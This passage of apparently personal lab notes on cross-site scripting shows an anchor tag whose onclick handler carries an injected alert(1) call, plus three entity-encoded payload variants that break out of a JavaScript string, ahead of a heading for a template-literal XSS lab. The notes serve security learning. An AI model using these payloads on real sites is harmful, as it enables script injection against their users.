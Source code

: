 ![](/img2/Pasted%20image%2020250725205336.png)

```html
<a id="author" href="http://test.com" onclick="var tracker={track(){}};tracker.track('http://test.com');alert(1);//')">test</a>
```

- Injection

```javascript
http://test.com&apos;);alert(1);//
```

```javascript
http://test.com&#39;);alert(1);//
```

```javascript
http://test.com&#x27;);alert(1);//
```

## XSS en template literal con caracteres unicode escapados || Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

![](/img2/Pasted%20image%2020250725224007.png)
